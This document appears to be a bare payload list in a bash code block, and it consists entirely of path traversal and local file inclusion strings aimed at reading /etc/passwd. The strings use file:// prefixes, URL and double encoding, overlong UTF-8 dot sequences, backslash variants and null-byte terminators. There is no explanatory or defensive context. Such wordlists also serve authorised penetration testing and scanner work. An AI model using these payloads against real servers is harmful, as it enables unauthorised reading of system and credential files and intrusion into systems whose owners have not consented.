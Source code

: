 ```bash
file://....//....//....//....//....//....//....//....//....//etc/passwd%00
file://....//....//....//....//....//....//....//....//....//....//etc/passwd%00
file://....//....//....//....//....//....//....//....//....//....//....//etc/passwd%00
file://....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd%00
file://....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd%00
%2e%2e%2e%2e%2fetc%2fpasswd%00
%2e%2e%2e%2e%2f%2e%2e%2e%2e%2fetc%2fpasswd%00
%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2fetc%2fpasswd%00
%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2fetc%2fpasswd%00
%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2fetc%2fpasswd%00
%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2fetc%2fpasswd%00
%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2fetc%2fpasswd%00
%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2fetc%2fpasswd%00
%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2fetc%2fpasswd%00
%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2fetc%2fpasswd%00
%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2f%2e%2e%2e%2e%2fetc%2fpasswd%00
..%252fetc%252fpasswd%00
..%252f..%252fetc%252fpasswd%00
..%252f..%252f..%252fetc%252fpasswd%00
..%252f..%252f..%252f..%252fetc%252fpasswd%00
..%252f..%252f..%252f..%252f..%252fetc%252fpasswd%00
..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd%00
..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd%00
..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd%00
..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd%00
..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd%00
..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd%00
%c0%ae%c0%ae/etc/passwd%00
%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00
%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00
%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00
%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00
%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00
%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00
%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00
%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00
/%5C../%5C../etc/passwd%00
/%5C../%5C../%5C../etc/passwd%00
/%5C../%5C../%5C../%5C../etc/passwd%00
/%5C../%5C../%5C../%5C../%5C../etc/passwd%00
/%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd%00
/%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd%00
/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd%00
/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd%00
/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd%00
/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd%00
/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd%00
/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd%00
/images/../../../etc/passwd%00
/images/../../../../etc/passwd%00
/images/../../../../../etc/passwd%00
/images/../../../../../../etc/passwd%00
/images/../../../../../../../etc/passwd%00
/images/../../../../../../../../etc/passwd%00
```